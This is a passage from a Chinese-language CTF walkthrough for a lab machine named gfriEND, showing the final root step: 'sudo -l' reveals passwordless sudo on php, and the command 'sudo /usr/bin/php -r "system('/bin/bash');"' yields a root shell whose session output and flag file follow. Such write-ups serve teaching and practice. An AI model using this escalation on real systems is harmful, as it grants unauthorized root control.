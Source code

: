   User alice may run the following commands on gfriEND:
      (root) NOPASSWD: /usr/bin/php
  alice@gfriEND:~$ 
  ```

- 调用php可以直接拿到root权限

## 提权：

- 使用`php`一条语句直接提权成功：`sudo /usr/bin/php -r "system('/bin/bash');"`

- ```shell
  alice@gfriEND:~$ sudo -l
  Matching Defaults entries for alice on gfriEND:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User alice may run the following commands on gfriEND:
      (root) NOPASSWD: /usr/bin/php
  
  alice@gfriEND:~$ sudo /usr/bin/php -r "system('/bin/bash');"
  root@gfriEND:~# whoami
  root
  root@gfriEND:~# ip a
  1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
      link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
      inet 127.0.0.1/8 scope host lo
         valid_lft forever preferred_lft forever
      inet6 ::1/128 scope host 
         valid_lft forever preferred_lft forever
  2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
      link/ether 00:0c:29:49:17:22 brd ff:ff:ff:ff:ff:ff
      inet 192.168.2.7/24 brd 192.168.2.255 scope global eth0
         valid_lft forever preferred_lft forever
      inet6 fe80::20c:29ff:fe49:1722/64 scope link 
         valid_lft forever preferred_lft forever
  root@gfriEND:~# uname -a
  Linux gfriEND 4.4.0-142-generic #168~14.04.1-Ubuntu SMP Sat Jan 19 11:26:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
  root@gfriEND:~# cd /root/
  root@gfriEND:/root# ls -lhai
  total 32K
  393313 drwx------  3 root root 4.0K Dec 13  2019 .
       2 drwxr-xr-x 22 root root 4.0K Dec 13  2019 ..
  393317 -rw-------  1 root root    0 Dec 13  2019 .bash_history
  393314 -rw-r--r--  1 root root 3.1K Feb 20  2014 .bashrc
  420354 drwx------  2 root root 4.0K Dec 13  2019 .cache
  419444 -rw-r--r--  1 root root 1000 Dec 13  2019 flag2.txt
  420368 -rw-------  1 root root  238 Dec 13  2019 .mysql_history
  419443 -rw-------  1 root root   81 Dec 13  2019 .nano_history
  393315 -rw-r--r--  1 root root  140 Feb 20  2014 .profile
  root@gfriEND:/root# cat flag2.txt 
  
    ________        __    ___________.__             ___________.__                ._.
   /  _____/  _____/  |_  \__    ___/|  |__   ____   \_   _____/|  | _____     ____| |
  /   \  ___ /  _ \   __\   |    |   |  |  \_/ __ \   |    __)  |  | \__  \   / ___\ |
  \    \_\  (  <_> )  |     |    |   |   Y  \  ___/   |     \   |  |__/ __ \_/ /_/  >|
   \______  /\____/|__|     |____|   |___|  /\___  >  \___  /   |____(____  /\___  /__
          \/                              \/     \/       \/              \//_____/ \/
  
  ```